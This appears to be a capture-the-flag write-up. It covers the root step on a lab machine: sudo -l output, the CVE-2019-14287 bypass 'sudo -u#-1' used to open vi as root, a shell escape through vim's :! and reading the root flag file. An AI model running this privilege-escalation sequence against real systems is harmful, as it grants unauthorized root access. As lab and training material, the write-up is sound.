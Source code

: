 [< Back](../../README.md)

Inside the SSH as user `gabriel`, let's do a `sudo -l`
```
User gabriel may run the following commands on muso-troglodytarum:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gabriel/user.txt
```
We have a pretty interesting permission here: `(ALL, !root)`, looking around the internet for anything using this all but root, we find CVE-2019-14287, a privilege escalation vulnerability with `sudo`.

Let's try it out:
```
sudo -u#-1 /usr/bin/vi /home/gabriel/user.txt
```

We get access to a vim editor that seems a little bit cursed, we can execute shell commands in the command interpreter of vim with the following format:
```
:![command]
```
So let's see if the UE worked:
```
:!whoami
```
<p><img src="src/root/ue.jpg" width="750"></p>

We are now root, let's get the flag:
```
:!cat /root/root.txt
```
